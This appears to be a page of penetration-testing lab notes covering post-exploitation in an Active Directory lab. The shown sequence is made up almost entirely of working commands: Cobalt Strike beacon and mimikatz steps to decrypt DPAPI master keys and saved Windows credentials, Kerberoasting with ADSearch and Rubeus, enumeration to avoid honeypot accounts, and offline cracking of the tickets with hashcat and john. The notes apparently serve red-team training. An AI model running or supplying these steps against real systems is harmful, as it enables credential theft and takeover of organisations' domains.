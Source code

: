 # 3. Master keys are stored in the users' roaming "Protect" directory (Note GUID of master key matching with Seatbelt)
beacon> ls C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-569305411-121244042-2357301523-1104

# 4. Decrypt the master key first to obtain the actual AES128/256 encryption key, and then use that key to decrypt the credential blob. (Need to be execute in context of user who owns the key, use @ modifier)
# Requires Elevation or interaction with LSASS
beacon> mimikatz !sekurlsa::dpapi
# Does not requires elevation or interaction with LSASS (Check last lines with "domainkey with RPC" line)
beacon> mimikatz dpapi::masterkey /in:C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-569305411-121244042-2357301523-1104\bfc5090d-22fe-4058-8953-47f6882f549e /rpc

# 5. Use Master key to decrypt the credentials blob
beacon> mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\6C33AC85D0C4DCEAB186B3B2E5B1AC7C /masterkey:8d15395a4bd40a61d5eb6e526c552f598a398d530ecc2f5387e07605eeab6e3b4ab440d85fc8c4368e0a7ee130761dc407a2c4d58fcd3bd3881fa4371f19c214

Kerberos

    Kerberoasting / ASREPRoasting

    # Kerberosting
    beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(servicePrincipalName=*))" --attributes cn,servicePrincipalName,samAccountName
    # To avoid Honeypot accounts, few enumerations can be performed
    beacon> powerpick Get-DomainUser -Identity mssql_svc,squid_svc,honey_svc | select samaccountname,logoncount,badpasswordtime,lastlogontimestamp,lastlogoff,lastlogon,badpwdcount,whencreated,pwdlastset
      
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:mssql_svc,squid_svc /nowrap
      
    ps> hashcat -a 3 -m 13100 hashes wordlist
    # I experienced some hash format incompatibility with john.  Removing the SPN so it became: $krb5tgs$23$*mssql_svc$dev.cyberbotic.io*$6A9E[blah] seemed to address the issue.
    ps> john --format=krb5tgs --wordlist=wordlist mssql_svc
      